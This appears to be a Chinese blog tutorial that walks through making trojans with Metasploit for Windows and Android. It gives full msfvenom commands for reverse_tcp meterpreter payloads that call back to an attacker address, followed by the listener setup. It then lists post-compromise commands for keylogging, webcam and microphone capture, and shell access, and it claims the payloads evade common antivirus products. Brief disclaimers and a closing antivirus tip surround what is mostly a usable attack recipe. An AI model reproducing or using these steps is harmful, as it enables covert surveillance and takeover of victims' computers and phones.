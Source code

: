 相信很多人都有这种感觉,觉得那些会做木马病毒的人非常牛逼,当然会自己完全写出来木马病毒的肯定非常牛逼,但是实际上,大部分人都是在前人的基础上修改,
很多则是用工具生成,出于兴趣,研究了一段时间"黑"科技,也实践了一下!总结了几点简单的工具用法,如果你会用这些工具,你会发现也许一个木马没有你像现在那么难做出来!
本文是本着研究的精神,所有攻击行为都是测试,请勿用于非法用途!

测试环境:kali linux windows7 windows 10 Android等操作系统

主要工具:metasploit framework

关于所用工具,本文不做过多介绍,这里介绍的使用方法也是最基本最简单的用法，其实不仅仅是windows或者Android，还是Mac，Linux，都可能受到这种攻击:

####1.使用metasploit 工具生存一个木马(windows版本)  ,命令如下:
```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -f exe >demo.exe
```
LHOST=后面的ip地址是你自己的局域网ip,目前本人所有的攻击测试仅在局域网试过,也就是内网!

demo.exe为生成的木马文件,把木马文件拷贝到对方电脑上,双击即可运行!据测试,该木马可以过360安全卫士,电脑管家等常用杀毒软件!这还是在没有做任何加密\加壳的情况下.....不过在有些人的电脑上360可以杀出来!可能是版本不同

####2.打开软件,设置好监听,命令依次如下:
```
use exploit/multi/handler
set payloads windows/meterpreter/reverse_tcp
set LHOST 192.168.1.47
set LPORT 8080
exploit
```

####3.坐等上钩
此时,只要对方电脑点击运行demo.exe木马文件,这边监听端口就可以收到信息,建立连接!然后可以执行一些入侵指令,对方现在电脑完全在你的掌控之下,常用命令如下:
```
sysinfo     //查看攻击主机的系统信息
kill         //结束进程
ps          //查看进程
reboot      //重启电脑
reg        //修改注册表
shell        //获取shell
shutdown    //关闭电脑
keyscan_start //开启健盘记录功能
keyscan_dump //查看健盘记录信息
keyscan_stop //停止健盘记录
download     //下载文件
upload        //上传文件
uictl enable keyboard　　　//获取键盘鼠标控制权
record_mic　　　　//音频录制
webcam_chat　　　//查看摄像头接口
webcam_list　　　//查看摄像头列表
webcam_stream　 //摄像头视频获取
................
```
####4.生成Android版本的木马,其实步骤和上面差不多
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -r >demo.apk
```
只要你下载安装到你手机上,你手机基本上也是别人的了,获取联系人\通讯录\定位打开摄像头\照片.......而且经测试,小米手机自带的安全中心对此木马完全没用!

不过,据我暂时了解的知识,距离一个完整的木马还有点距离:

1.杀毒软件.据我测试,腾讯的电脑管家就是垃圾,扫描不出来我生成的木马,360基本上一扫就出来,经过简单编码加密后,360会提示风险程序,而系统自带的windows defender更是一点点用都没.不过要想真把木马做成免杀还得花点功夫.......

2.木马持续后门.所谓持续后门就是能让木马开机后自启,经测试,msf自带的2种方法无效.....暂时未找到可行性方法!

3.权限问题.360是个麻烦事,在有些机子上进行操作,比如打开摄像头,360会有提示.....而且木马暂时还没法子终结360的进程,所以蛋疼!

在日常生活中,专门去攻击某些个人的情况很少,很多时候黑客都是采用自动化工具遍地撒网,利用一些公开的漏洞进行攻击!普通人能做的只是让自己别中这些自动化黑客工具的招就行了,如果某些个人或者组织想黑你,真的很简单.............
而且为了安全，最好装一个安全防护软件，甭管是360还是诺顿，亦或者是卡巴斯基，为啥？为的就是防止受到这些生成的木马攻击，这些木马虽然技术含量不高，
但是如果你裸奔，那还真是送，除非你保证你从不在网上下载各种破解软件或者补丁！